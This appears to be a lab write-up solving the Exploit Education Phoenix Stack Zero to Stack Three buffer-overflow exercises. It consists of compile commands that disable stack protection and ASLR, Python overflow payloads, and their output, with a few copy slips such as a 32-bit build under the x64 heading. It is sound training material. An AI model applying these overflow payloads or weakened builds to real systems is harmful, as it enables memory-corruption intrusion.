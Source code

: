 # Exploit Education Phoenix


# Stack Zero
## x32
### Compile
```
gcc -m32 -fno-stack-protector -z execstack -o stack-zero-32 stack-zero.c
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
### Solution
```
python -c "print('A' * 65)" | ./stack-zero-32
```
### Result
```
root@jay:/opt/Exploit-Education-Phoenix# python -c "print('A' * 65)" | ./stack-zero-32 
Welcome to stack-zero, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed!

```
## x64
### Compile
```
gcc -fno-stack-protector -z execstack -o stack-zero stack-zero.c
```
### Solution
```
python -c "print('A' * 65)" | ./stack-zero 
```
### Result
```
root@jay:/opt/Exploit-Education-Phoenix# python -c "print('A' * 65)" | ./stack-zero 
Welcome to stack-zero, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed!
```


# Stack One
## x32
### Compile
```
gcc -m32 -fno-stack-protector -z execstack -o stack-one-x32 stack-one.c
```
### Solution
```
./stack-one-x32 `python -c "print('A'*64+'\x62\x59\x6c\x49')"`
```
### Result
```
root@jay:/opt/Exploit-Education-Phoenix# ./stack-one-x32 `python -c "print('A'*64+'\x62\x59\x6c\x49')"`
Welcome to Stack one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```

## x64
### Compile
```
gcc -fno-stack-protector -z execstack -o stack-one stack-one.c
```
### Solution
```
./stack-one `python -c "print('A'*64+'\x62\x59\x6c\x49')"`
```
### Result
```
root@jay:/opt/Exploit-Education-Phoenix# ./stack-one `python -c "print('A'*64+'\x62\x59\x6c\x49')"`
Welcome to Stack one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```


# Stack Two
## x32
### Compile
```
gcc -m32 -fno-stack-protector -z execstack -o stack-two-x32 stack-two.c
```
### Solution
```
export ExploitEducation=`python -c "print('A'*64 + '\x0a\x09\x0a\x0d')"`
./stack-two-x32
```
### Result
```
root@jay:/opt/Exploit-Education-Phoenix# ./stack-two-x32 
Welcome to stack-two, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value

```
## x64
### Compile
```
gcc -m32 -fno-stack-protector -z execstack -o stack-two stack-two.c
```
### Solution
```
export ExploitEducation=`python -c "print('A'*64 + '\x0a\x09\x0a\x0d')"`
./stack-two
```
### Result
```
root@jay:/opt/Exploit-Education-Phoenix# ./stack-two-x32 
Welcome to stack-two, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```


# Stack Three
## x32
### Compile and disable ASLR
```
gcc -m32 -fno-stack-protector -z execstack -o stack-three-32 stack-three.c
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
### Solution
```
python -c 'print "A"*64 + "\x56\x55\x55\xfd"[::-1]' | ./stack-three-32
```

## x64
### Compile and disable ASLR
```
gcc -fno-stack-protector -z execstack -o stack-three stack-three.c
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
### Solution
```
python -c 'print "A"*64 + "\x55\x55\x55\x55\x47\xaa"[::-1]' | ./stack-three
```
